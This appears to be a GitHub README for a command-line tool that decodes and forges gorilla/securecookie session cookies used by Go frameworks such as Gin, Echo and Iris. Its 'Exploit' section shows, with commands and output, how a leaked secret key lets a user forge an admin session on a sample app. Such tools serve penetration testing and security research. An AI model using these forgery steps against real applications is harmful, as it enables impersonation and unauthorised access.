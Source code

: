 # Secure-Cookie-Faker

security tool to encode/decode Golang web-frameworks' client-side session cookie which use [gorilla/securecookie](https://github.com/gorilla/securecookie) or [gorilla/sessions](https://github.com/gorilla/sessions), such as Gin, Echo or Iris

***

## Stats

top stars Go web-frameworks' using of [gorilla/securecookie](https://github.com/gorilla/securecookie) or [gorilla/sessions](https://github.com/gorilla/sessions)

(stars count comes from [go-web-framework-stars](https://github.com/mingrammer/go-web-framework-stars))

| web framework                                    | stars | uses gorilla's securecookie or sessions? |
| ------------------------------------------------ | ----- | ---------------------------------------- |
| [gin](https://github.com/gin-gonic/gin)          | 28126 | ✔                                        |
| [beego](https://github.com/astaxie/beego)        | 20805 | ✘                                        |
| [iris](https://github.com/kataras/iris)          | 15102 | ✔                                        |
| [echo](https://github.com/labstack/echo)         | 14180 | ✔                                        |
| [kit](https://github.com/go-kit/kit)             | 13920 | ✘                                        |
| [revel](https://github.com/revel/revel)          | 11125 | ✘                                        |
| [martini](https://github.com/go-martini/martini) | 10572 | ✔                                        |

and many personal application using them as a basic web application toolkit [link](https://github.com/search?q=import+%22github.com%2Fgorilla%2Fsessions%22&type=Code)

***

## Exploit

secret-key ensures the safety of the client-side cookie, if secret-key was gotten by **source code leaked**, **LFI**, or ...etc., hacking that web application becomes so easy

take the Gin web-framework as an example

**source code:**

```go
package main

import (
    "github.com/gin-gonic/gin"
    "github.com/gin-contrib/sessions"
    "github.com/gin-contrib/sessions/cookie"
)

func main() {
    r := gin.Default()

    store := cookie.NewStore([]byte("xxxxxxxxxxxx"))
    r.Use(sessions.Sessions("session", store))

    r.GET("/", func(c *gin.Context) {
        session := sessions.Default(c)
        session.Set("user", "test")
        session.Set("id", 100)
        session.Set("point", 0)
        session.Save()
    })

    r.GET("/show", func(c *gin.Context) {
        session := sessions.Default(c)
        user := session.Get("user")
        id := session.Get("id")
        point := session.Get("point")
        c.JSON(200, gin.H{
            "user": user,
            "id": id,
            "point": point,
        })
    })

    r.Run(":5000")
}
```

request to `/`，get cookie: 

`Set-Cookie: session=MTU2MTE4NjIzNnxEdi1CQkFFQ180SUFBUkFCRUFBQVVQLUNBQU1HYzNSeWFXNW5EQVlBQkhWelpYSUdjM1J5YVc1bkRBWUFCSFJsYzNRR2MzUnlhVzVuREFRQUFtbGtBMmx1ZEFRREFQX0lCbk4wY21sdVp3d0hBQVZ3YjJsdWRBTnBiblFFQWdBQXxlwq6mxtwXuKDMeXOyDaHpR-Hcn0veF2OmBqc4F76puQ==`

decode it

```
λ .\faker.exe dec -n session -k xxxxxxxxxxxx -c "MTU2MTE4NjIzNnxEdi1CQkFFQ180SUFBUkFC RUFBQVVQLUNBQU1HYzNSeWFXNW5EQVlBQkhWelpYSUdjM1J5YVc1bkRBWUFCSFJsYzNRR2MzUnlhVzVuREFRQUFtbGtBMmx1ZEFRREFQX0lCbk4wY21sdVp3d0hBQVZ3YjJsdWRBTnBiblFFQWdBQXxlwq6mxtwXuKDMeXOyDaHpR-Hcn0veF2OmBqc4F76puQ=="
map[id:100 point:0 user:test]
type detail:
{
    user[string]: test[string],
    id[string]: 100[int],
    point[string]: 0[int],
}
```

fake identity

```
λ .\faker.exe enc -n session -k xxxxxxxxxxxx -o "{user:admin, id:0[int], point:99999[ int]}"
MTU2MTE4NjQzNHxFXy1CQkFFQkEwOWlhZ0hfZ2dBQkVBRVFBQUJUXzRJQUF3WnpkSEpwYm1jTUJnQUVkWE5sY2daemRISnBibWNNQndBRllXUnRhVzRHYzNSeWFXNW5EQVFBQW1sa0EybHVkQVFDQUFBR2MzUnlhVzVuREFjQUJYQnZhVzUwQTJsdWRBUUZBUDBERFQ0PXwKR14WwPjXeUBZlZ0sKcEfRu-n7_va9drjsFaIEVahmA==
```

modify cookie, then request to `/show`，we are admin now

***

## Installation

```
go get github.com/eddieivan01/secure-cookie-faker
go install -ldflags="-s -w"
```

or 

```
git clone https://github.com/eddieivan01/secure-cookie-faker.git
cd secure-cookie-faker
go build -ldflags="-s -w" -o faker
```

or

download binary file from [releases page](https://github.com/eddieivan01/secure-cookie-faker/releases)

***

## Usage

```
Secure Cookie Faker v0.1

Usage: faker [enc/dec] [-n cookie_name] [-k secret_key] [-o object_string / -c cookie_string]

Mode: 
  dec
        decode mode, cookie => object
  enc
        encode mode, object => cookie

Options:
  --help    show help
  -k string
        secret keys, string like "key" or multiple keys like "key1, key2, key3"
  -n string
        the cookie name
  -o string
        object to be encoded, string like "{key1[type]: value1[type], key2[type]: value2[type]}"
        type hint could be `int`, `float`, `bool`, `string`, `byte`
        when type is `string`, it could be omitted. like this {str1: str2}
        if mode is encode, this param is required
  -c string
        cookie to be decoded
        if mode is decode, this param is required
```

## Example

choosing a mode is required: enc or dec
```
./faker dec -n "mysession" -k "secret_key" -c "MTU2MTE4NjQzNHxFXy1CQkFFQkEwOWlhZ0hfZ2dBQkVBRVFBQUJUXzRJQUF3WnpkSEpwYm1jTUJnQUVkWE5sY2daemRISnBibWNNQndBRllXUnRhVzRHYzNSeWFXNW5EQVFBQW1sa0EybHVkQVFDQUFBR2MzUnlhVzVuREFjQUJYQnZhVzUwQTJsdWRBUUZBUDBERFQ0PXwKR14WwPjXeUBZlZ0sKcEfRu-n7_va9drjsFaIEVahmA=="
```

`-n` means the cookie name, its required because the cookie generation relies on it

`-k` means the secret key(s), could be multiple: `-k "key1, key2, key3"`

`-c` means the cookie to be decoded

***

when encode a object

```
./faker enc -n "mysession" -k "secret" -o "{user: admin, id: 0[int]}"
```

`-o `means the object string，its like a K-V map. 

when the element is `string` type, the type tag can be omitted

the type tag can only be `int`,  `uint`,  `float`,  `bool`,  `string`,  `byte`

***

## Feature

* CLI tool to fake session-cookie
* parse the type hint when decoding / choose the type when encoding

***

## TODO

- [ ] support slice type